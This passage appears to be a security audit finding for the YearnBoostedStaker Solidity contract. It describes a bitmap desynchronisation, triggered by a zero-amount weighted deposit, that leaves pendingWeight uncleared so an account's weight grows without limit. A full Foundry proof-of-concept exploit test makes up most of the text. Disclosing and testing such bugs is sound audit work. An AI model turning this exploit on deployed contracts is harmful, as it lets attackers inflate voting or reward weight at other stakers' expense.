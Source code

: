 The contract now believes we staked last week but our `accountWeeklyRealized` says we deposited this week. This results in the 2 variables to not be synced anymore.

Because of that, the function [`_checkpointAccount`](https://github.com/wavey0x/yearn-boosted-staker/blob/f0d1833de0530c124dacd1572b3cf401a71702d9/contracts/YearnBoostedStaker.sol#L307) will never clear our `pendingWeight` which will lead to our `weight` to keep increasing infinitely week after week.

Here is a POC that shows the attack:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.15;

import "forge-std/Test.sol";
import {YearnBoostedStaker} from "../src/yPrisma.sol";
import {ERC20} from "openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";

contract LockedPrisma is ERC20 {
    constructor() ERC20("liquid locked prisma", "YPRISMA") {
        _mint(msg.sender, 100_000 ether);
    }
}

contract Test24 is Test {
    function test_infiniteWeightPOC() external {
        ERC20 token = new LockedPrisma(); //ERC20 liquid locked prisma
        YearnBoostedStaker staking = new YearnBoostedStaker(token, 4, block.timestamp, address(this));

        //approve an helper contract, in our case we keep it simple and set the test address
        staking.setWeightedDepositor(address(this), true);
        staking.setApprovedCaller(address(this), true);

        //deposit 0 tokens at idx 0
        staking.depositAsWeighted(address(this), 0, 0);

        //we can notice that the bitmap got incremented to 1 -> 00000001
        (,,,uint8 bitmap) = staking.accountData(address(this));
        assertEq(bitmap, 1);

        //deposit 100 tokens using the normal function now
        token.approve(address(staking), 100 ether);
        staking.deposit(100 ether);

        //we check our bitmap again, it has been incremented to 2 -> 00000010 which means the contract thinks we deposited a week ago
        (,,, bitmap) = staking.accountData(address(this));
        assertEq(bitmap, 2);

        //we skip 4 weeks, our weight should be 50 * 5 like a normal deposit
        skip(4 weeks);
        staking.checkpointAccount(address(this));
        assertEq(staking.getAccountWeight(address(this)), 50 ether * 5);

        //We have an issue tho, the pending balance is still here
        (, uint112 pending,,) = staking.accountData(address(this));
        assertEq(pending, 50 ether);

        //This means, we continue to gain more weight every weeks, see after 4 more weeks
        skip(4 weeks);
        staking.checkpointAccount(address(this));
        assertEq(staking.getAccountWeight(address(this)), 50 ether * 9);
    }
}
```
